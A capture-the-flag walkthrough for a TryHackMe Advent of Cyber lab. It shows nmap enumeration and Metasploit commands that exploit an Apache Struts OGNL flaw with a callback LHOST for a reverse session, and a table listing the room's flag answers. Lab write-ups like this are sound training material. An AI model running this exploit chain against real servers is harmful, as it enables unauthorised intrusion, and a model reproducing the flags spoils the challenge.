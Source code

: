# [Day 10] Metasploit-a-ho-ho-ho Writeup
### Tags: `#Linux Webapp #Metasploit #Meterpreter`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day10.png' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.173.247
```

![](imgs/ping.png)

2.) Lets run a nmap scan on the machine to enumerate all services on open ports.

```bash
nmap -A 10.10.173.247
```

![](imgs/nmap.png)

3.) Lets take a look at the Apache webapp running on port 80. The home page redirects to /showcase.action, this seems unique.

![](imgs/webapp.png)

4.) Using google, lets search for apache showcase.action and see if we can find any results for exploits that we can use. The 4th result from www.rapid7.com seems like a good fit because Rapid7 is the developers of Metasploit.

![](imgs/showcase_action.png)

5.) Using the CLI tool searchsploit, which is a local version of the exploitDB maintained by OffSec. We can see the exploits listed for Apache Struts.

![](imgs/searchsploit.png)

6.) Using Metasploit, lets execute the struts2_content_type_ognl exploit.

```bash
msfconsole

search struts2

use 6

show options
```

![](imgs/usemsf.png)

7.) When using Metasploit, we need to set all the required options before trying to execute the exploit on the machine.

```bash
set RHOSTS 10.10.173.247

Set RPORT 80

set TARGETURI /showcase.action

set LHOST 10.13.37.142
```

![](imgs/setoptions.png)

8.) With all the required fields set within Metasploit, we can execute the exploit by running the command run.

![](imgs/run.png)

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | What port is SSH running on? | 65534 |
| Task #2 | Find and run a file as igor. Read the file /home/igor/flag1.txt | THM{d3f0708bdd9accda7f937d013eaf2cd8} |
| Task #3 | Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file? | THM{8c8211826239d849fa8d6df03749c3a2} |







